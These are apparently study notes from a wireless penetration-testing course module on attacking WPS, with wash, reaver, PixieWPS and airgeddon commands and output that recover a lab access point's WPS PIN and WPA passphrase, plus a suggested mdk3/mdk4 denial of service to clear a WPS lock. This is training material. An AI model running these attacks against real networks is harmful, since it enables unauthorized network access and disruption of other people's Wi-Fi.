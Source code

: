 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Module 9: Attacking WPS Networks

## WPS Technology Details

_Just discussing WPS technology, requirements, etc._

## WPS Vulnerabilities

PIN verification is done in two parts. The first half is checked, then the second half rather than the entire PIN. First half has 10000 possibilities, second half has 1000. A couple tools were developed to attack this, _reaver_ and _bully._ PixieWPS takes advantage of the weak random number generator used in a few chipsets, meaning not all WPS implementations are vulnerable.

## WPS Attack

Using _wash_ to list out APs with WPS:

{% code overflow="wrap" %}
```bash
kali@kali:~$ wash -i wlan0mon
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
00:0A:D0:97:39:6F    1  -88  2.0  No   Broadcom  linksys
C8:BC:C8:FE:D9:65    2  -28  2.0  No   AtherosC  secnet
34:08:04:09:3D:38    3  -32  1.0  No   RalinkTe  wifu
```
{% endcode %}

WPS version 2 mandated mitigations to prevent brute forcing, which may actually just slow down a brutefroce. Lck indicates if WPS is locked, meaning an attack is pointless.

_wash_ by default scans the 2.4GHz band but can scan 5GHz by using the **-5** option. We can also just use airodump-ng to display WPS information using **--wps**.

Using _reaver_ to attack an AP with WPS:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v

Reaver v1.6.6 WiFi Protected Setup Attack Tool                 
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 34:08:04:09:3D:38
[+] Switching wlan0mon to channel 1
[+] Switching wlan0mon to channel 2
[+] Switching wlan0mon to channel 3
[+] Received beacon from 34:08:04:09:3D:38               
[+] Vendor: RalinkTe                                     
[+] Trying pin "12345670"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] Trying pin "00005678"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)      
[+] Trying pin "01235678"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] Trying pin "11115670"                                      
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)      
[+] Trying pin "22225672"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] Trying pin "33335674"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] 0.05% complete @ 1985-10-27 11:00:00 (2 seconds/pin)
...
```
{% endcode %}

If vulnerable to the PixieWPS attack, results will be much quicker:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 34:08:04:09:3D:38
[+] Received beacon from 34:08:04:09:3D:38
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
executing pixiewps -e b882382e407e4af64fcf9d71ef8ace569fd453ccafb4d1172eaf2a32defa7b36908dea0a0e55e300d5d853e7289ae8488c785af8928b16575486f1560c6a5720c1665d9d4fcdd987248e3f47fd2a00bf9de2f583f45240db1f4aa619098a81fa5ce3663bc0101509ffbfa68e8647042357de76a21718ce4d1defb9006e7396c80e696d6d7ec03bf7fce08850dfcf2a6730cf47ff274f3a1d3d1eba7570c297bbdd52188ac18a936a092b80632bbbe8ffa468caf2c935dda67a8f70bc24fcedb1 -s ec2fd098686d9fc441784e0c13e311a6e11141898ec863b78e213a89335ce7a9 -z 482cbb8708a1605324bc474f2e8881305f39ec4261521681432c12d8b1c0ff17 -a 34e844d2bae3119498c26f59a6dde7d18b5665a173d1adbb05d1907f3650118b -n f56bdccaa2cf51595e5f5ff9295dd6b1 -r 0495e5f459cd26b325b87f2d36d2e6da2d00cf157a394de126345599376525a1b0669f5483830fb504ce03453a7164c739e0619e4cc4992c9db16b73ae8ccb57c9d14670cefeda188cdb681e1c1549019db64dc27fc8ec305684f437e014ac6288c9e8be8d4b1ea33e074b6b3bd9e1b9c2f233f2996cec17b6bb68af36fdbf92f1783ded438e43bd19ff73b73f11b053ccb44669db37c4549053b99b1ae268c8b1eb38ef105e1c1b845f86a5814b4eee4892bc473b75c59462801918b5512f9f

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0xa0092e17
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     39768b33293254526142aa2d3d55dbf8
 [*] PSK2:     385c8893197a003fc767af1eebdbdda8
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  96039620

 [*] Time taken: 0 s 17 ms

[+] Pixiewps: success: setting pin to 96039620
[+] WPS PIN: '96039620'
[+] WPA PSK: 'Where we are going, we dont need roads'
[+] AP SSID: 'wifu'
```
{% endcode %}

### Implementation Variations

Checking the first three bytes of the BSSID against known PINs:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo apt install airgeddon
...

kali@kali:~$ source /usr/share/airgeddon/known_pins.db

kali@kali:~$ echo ${PINDB["0013F7"]}
14755989 48703970 06017637
```
{% endcode %}

### Overcoming Unexpected Errors

#### WPS Transaction Failure

```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```

* _Could be a temporary failure. Restart reaver without the PixieWPS option._

#### ACK Issues

```
[+] Sending identity response
[+] Received identity request
```

* _The wireless card doesn't acknowledge frames sent by the AP. Use a different wireless card with a different chipset._

#### WPS Lock

* _When WPS is locked, a DoS on the AP can be done via **mdk3** or **mdk4**. This will trigger a reboot a reboot which releases the lock._
